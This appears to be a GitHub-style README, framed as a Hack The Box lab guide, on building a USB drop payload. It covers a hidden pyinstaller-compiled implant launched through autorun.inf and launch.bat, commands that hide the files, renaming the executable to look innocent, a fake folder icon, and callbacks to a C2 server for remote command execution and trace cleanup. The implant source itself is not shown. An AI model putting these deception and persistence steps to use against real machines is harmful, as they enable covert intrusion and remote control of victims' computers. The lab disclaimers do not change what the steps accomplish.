 # **USB Auto-Execution Payload - HTB/CTS Lab Guide**  
**For Authorized Penetration Testing Only**  

---

## **📌 Table of Contents**  
1. [What This Does](#-what-this-does)  
2. [Requirements](#-requirements)  
3. [USB File Checklist](#-usb-file-checklist)  
4. [Setup Guide](#-setup-guide)  
5. [Testing & C2 Commands](#-testing--c2-commands)  
6. [Safety & OPSEC](#⚠️-safety--opsec)  

---

## **🔍 What This Does**  
A stealthy USB payload for **HTB/CTS labs** that:  
✅ Auto-runs on insertion (via `autorun.inf` + `launch.bat`)  
✅ Calls back to your C2 server (HTB-provided IP)  
✅ Executes commands remotely  
✅ Self-hides (no windows/taskbar traces)  

---

## **📋 Requirements**  
### **🛠️ Tools**  
- **Windows PC** (for compiling/testing)  
- **USB Drive (FAT32 formatted)**  
- **Python 3.8+** + `pip install pyinstaller pycryptodomex pywin32`  

### **🔑 HTB/CTS Lab Info**  
- **C2 Server IP**: Provided in lab instructions (replace `YOUR_C2_IP` in `lab.py`)  
- **Target OS**: Windows (AutoRun may be disabled; manual execution might be needed)  

---

## **📂 USB File Checklist**  
Copy **these files to the USB root**:  
| File           | Purpose                                  | Hidden? |  
|----------------|------------------------------------------|---------|  
| `payload.exe`  | Compiled malware (from `lab.py`)         | Yes     |  
| `autorun.inf`  | Triggers `launch.bat` on USB insertion   | Yes     |  
| `launch.bat`   | Runs `payload.exe` silently              | Yes     |  
| `desktop.ini`  | Displays a fake "Documents" icon (optional) | Yes     |  

### **🚨 Critical Notes**  
- **Hide files**: Run in CMD (after copying):  
  ```cmd
  attrib +h +s payload.exe autorun.inf launch.bat desktop.ini
  ```  
- **Name `payload.exe` something innocent** (e.g., `setup.exe`) if AutoRun is blocked.  

---

## **🔧 Setup Guide**  

### **1️⃣ Generate RSA Keys**  
Run `generate_key.py` → Copy the **public key** into `lab.py`:  
```python
RSA_PUB_KEY = """-----BEGIN PUBLIC KEY-----
PASTE_YOUR_KEY_HERE
-----END PUBLIC KEY-----"""
```  

### **2️⃣ Compile `payload.exe`**  
```bash
pyinstaller --onefile --noconsole --clean lab.py -n payload
```  
➡️ Output: `dist/payload.exe` → Copy to USB.  

### **3️⃣ Configure `autorun.inf`**  
Ensure it matches:  
```ini
[AutoRun]
open=launch.bat
shellexecute=launch.bat
action=Open folder to view files
label=Backup Drive  ; Match HTB lab theme
icon=shell32.dll,4  ; Generic folder icon
```  

---

## **🚀 Testing & C2 Commands**  

### **🔌 Execution Methods**  
1. **AutoRun (If enabled in lab)**:  
   - Plug USB → `autorun.inf` → `launch.bat` → `payload.exe`.  
2. **Manual (If AutoRun fails)**:  
   - Double-click `launch.bat` or `payload.exe`.  

### **📡 C2 Server Commands**  
Send these from your C2 (HTB lab server):  
| Command          | Action                          |  
|------------------|---------------------------------|  
| `exec whoami`    | Runs `whoami` on target         |  
| `cleanup`        | Self-destructs + removes traces |  

---

## **⚠️ Safety & OPSEC**  
1. **Lab Restrictions**:  
   - HTB may block AutoRun → Use manual execution.  
   - Firewalls may block C2 → Check lab instructions.  
2. **Cleanup**:  
   - `payload.exe` auto-removes traces on `cleanup`.  
   - Format USB after testing.  

---

## **❓ Troubleshooting**  
| Issue                  | Fix                                  |  
|------------------------|--------------------------------------|  
| `payload.exe` crashes  | Recompile with `--debug` flag        |  
| No C2 connection       | Check `C2_SERVER` IP in `lab.py`     |  
| AutoRun fails          | Manually run `launch.bat`            |  

---

## **📜 Final Notes**  
- **Test in a VM first** (e.g., VirtualBox with AutoRun enabled).  
- **HTB/CTS may require adjustments** (ask instructors if stuck).  
- **Never use outside authorized labs!**  

🔐 **Good luck with the challenge!**  
